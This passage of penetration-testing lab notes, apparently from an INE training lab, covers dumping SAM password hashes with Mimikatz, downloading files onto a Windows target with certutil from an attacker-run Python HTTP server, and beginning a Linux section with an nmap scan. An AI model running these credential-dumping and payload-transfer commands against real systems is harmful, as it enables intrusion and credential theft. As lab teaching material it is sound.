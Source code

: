 This will dump the hashed passwords stored in the SAM database.

---

**14. Exiting Mimikatz**

After dumping the credentials, exit **Mimikatz**:

```
exit
```

---

**15. Example of File Transfer via Certutil**

Here’s an additional example of how to transfer files to the target using `certutil`. First, set up an HTTP server to serve the file:

```
python3 -m http.server 80
```

Then, on the target machine, use `certutil` to download a file (e.g., `test.txt`):

```
certutil -urlcache -f http://eth1/test.txt test.txt
```

This will download the file `test.txt` from the web server running on your **Kali Linux** machine.


####  Conclusion

Following these steps, we exploited a vulnerable Windows service, transferred files using `certutil`, and extracted credentials using **Mimikatz**. Make sure to replace IP addresses and ports based on your specific network setup.

--

### Transferring Files To Linux Targets

This documentation outlines how to scan a Linux target, exploit it using Metasploit, and transfer files to the compromised system.

---

#### 1. Scanning the Target

We begin by scanning the target system to gather information about open services and their versions.

```bash
nmap -sV demo.ine.local
```

- `-sV`: This option enables version detection, helping identify what software is running on open ports.
- `demo.ine.local`: This is the target we are scanning.

---
